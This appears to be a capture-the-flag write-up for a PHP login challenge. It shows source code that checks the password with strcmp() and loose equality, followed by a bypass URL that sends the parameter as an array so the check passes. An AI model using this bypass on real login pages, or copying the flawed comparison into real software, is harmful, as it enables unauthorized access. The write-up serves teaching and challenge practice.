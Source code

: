 # Northeastern Univ.
---

Of course, a timing attack might be the answer, but Im quite sure that you can do better than that. : 25


## Source code

```
<html>
<head>
	<title>level3</title>
    <link rel='stylesheet' href='style.css' type='text/css'>
</head>
<body>

<?php
require 'flag.php';

if (isset($_GET['password'])) {
    if (strcmp($_GET['password'], $flag) == 0)
		die('Flag: '.$flag);
    else
		print '<p class="alert">Invalid password.</p>';
}
?>

<section class="login">
        <div class="title">
                <a href="./index.txt">Level 3</a>
        </div>

        <form method="get">
                <input type="text" required name="password" placeholder="Password" /><br/>
                <input type="submit"/>
        </form>
</section>
</body>
</html>
```

## Solution

If you are Wizard, you can simply guess the password :) 

Because I'm not, I've passed password $_GET varialble as array and strcmp() failed and returned false ( false == 0 is 'true', so we can see the flag)

```
http://52.10.107.64:8003/?password[]=aaa
```
